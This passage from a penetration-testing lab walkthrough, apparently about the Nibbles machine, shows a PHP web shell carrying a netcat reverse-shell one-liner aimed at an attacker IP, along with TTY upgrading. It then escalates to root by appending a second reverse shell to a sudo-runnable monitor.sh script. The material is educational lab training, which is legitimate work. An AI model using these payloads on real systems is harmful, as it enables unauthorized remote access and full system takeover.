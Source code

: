 Let us edit our local PHP file and upload it again. This command should get us a reverse shell. As mentioned earlier in the Module, there are many reverse shell cheat sheets out there. Some great ones are [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md) and [HighOn,Coffee](https://highon.coffee/blog/reverse-shell-cheat-sheet/).

Let us use the following Bash reverse shell one-liner and add it to our PHP script.
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <ATTACKING IP> <LISTENING PORT) >/tmp/f
```

We will add our `tun0` VPN IP address in the `<ATTACKING IP>` placeholder and a port of our choice for `<LISTENING PORT>` to catch the reverse shell on our `netcat` listener. See the edited `PHP` script below.
```php
<?php system ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.2 9443 >/tmp/f"); ?>
```

We upload the file again and start a `netcat` listener in our terminal:

`cURL` the image page again or browse to it in Firefox at `http://nibbleblog/content/private/plugins/my_image/image.php` to execute the reverse shell.
```bash
nc -lvnp 9443
listening on [any] 9443 ...
connect to [10.10.14.2] from (UNKNOWN) [10.129.42.190] 40106
/bin/sh: 0: cant access tty; job control turned off
$ id
uid=1001(nibbler) gid=1001(nibbler) groups=1001(nibbler)
```

Furthermore, we have a reverse shell. Before we move forward with additional enumeration, let us upgrade our shell to a "nicer" shell since the shell that we caught is not a fully interactive TTY and specific commands such as `su` will not work, we cannot use text editors, tab-completion does not work, etc. This [post](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/) explains the issue further as well as a variety of ways to upgrade to a fully interactive TTY. For our purposes, we will use a `Python` one-liner to spawn a pseudo-terminal so commands such as `su` and `sudo` work as discussed previously in this Module.
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```
Try the various techniques for upgrading to a full TTY and pick one that works best for you.

Browsing to `/home/nibbler`, we find the `user.txt` flag as well as a zip file `personal.zip`.

Let's pull in `LinEnum.sh` to perform some automated privilege escalation checks. First, download the script to your local attack VM or the Pwnbox and then start a Python HTTP server using the command `sudo python3 -m http.server 8080`.

The `nibbler` user can run the file `/home/nibbler/personal/stuff/monitor.sh` with root privileges. Being that we have full control over that file, if we append a reverse shell one-liner to the end of it and execute with `sudo` we should get a reverse shell back as the root user. Let us edit the `monitor.sh` file to append a reverse shell one-liner.
```bash
echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.2 8443 >/tmp/f' |
tee -a monitor.sh
```
It is crucial if we ever encounter a situation where we can leverage a writeable file for privilege escalation. We only append to the end of the file (after making a backup copy of the file) to avoid overwriting it and causing a disruption.
